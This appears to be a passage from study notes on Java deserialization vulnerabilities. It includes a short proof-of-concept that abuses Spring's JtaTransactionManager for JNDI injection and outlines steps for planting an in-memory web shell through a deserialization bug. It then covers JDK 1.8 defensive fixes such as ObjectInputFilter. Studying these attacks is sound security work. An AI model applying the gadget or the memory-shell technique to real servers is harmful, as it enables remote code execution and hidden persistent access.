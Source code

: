 `JtaTransactionManager` class will look up JNDI URL stored in `userTransactionName` when deserializing.
This vul is quite simple without needing to analyze. 
Poc:
```java
String jndiURL = null;  
if (command.toLowerCase().startsWith("jndi:")) {  
   jndiURL = command.substring(5);  
}  
  
JtaTransactionManager manager = new JtaTransactionManager();  
manager.setUserTransactionName(jndiURL);  
return manager;
```


---
# Tips
## Insert memory shell through deserialization vulnerability

1. Create a memory shell class(e.g. `EvilFilter`) and override the required method
2. Write code for inserting memory shell in a static code block of a certain class(normally the memory shell class itself)
3. Select a script engine(JavaScript, BeanShell, Python, etc.). Prepare the script code in which define an evil class to insert memory shell and create a new instance to trigger the static code block
4. Execute script through deserialization vulnerability.



---

## Fixes
### JDK fixes
#### Overview

This article[^1] introduces security updates for serialization in JDK1.8. In summary, there are three strengthening methods introduced in JDK1.8:
1. Override `ObjectInputStream`'s `resolveClass` or `resolveProxyClass` method
2. Use `ValidatingObjectInputStream` to decorate `ObjectInputStream` to deploy white-list validation
3. Create an `ObjectInputFilter` class overriding `checkInput` method, and decorate an `ObjectInputStream` via `setObjectInputFilter` method.

#### `AnnotationInvocationHandler`
Recall [[Java Deserialize Vulnerabilities ysoserial study#CommonCollections1|the exploitation of CC1]], there are two handlers employed, one with a dynamic proxy as `memberValues`(i.e. outer handler) and another which is a member of the proxy object with a `LazyMap` as `memberValues`(i.e. inner handler). While deserialize, it comes in a depth-prior recursion, so the inner handler would be firstly deserialized, after all fields finish deserialization here comes to deserializing the proxy, later the outer handler. 
Let's take a look at the `AnnotationInvocationHandler`'s `readObject` in JDK1.8:
```java
private void readObject(java.io.ObjectInputStream s)  
    throws java.io.IOException, ClassNotFoundException {  
    ObjectInputStream.GetField fields = s.readFields();  
  
    @SuppressWarnings("unchecked")  
    Class<? extends Annotation> t = (Class<? extends Annotation>)fields.get("type", null);  
    @SuppressWarnings("unchecked")  
    Map<String, Object> streamVals = (Map<String, Object>)fields.get("memberValues", null);  
  
```

[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)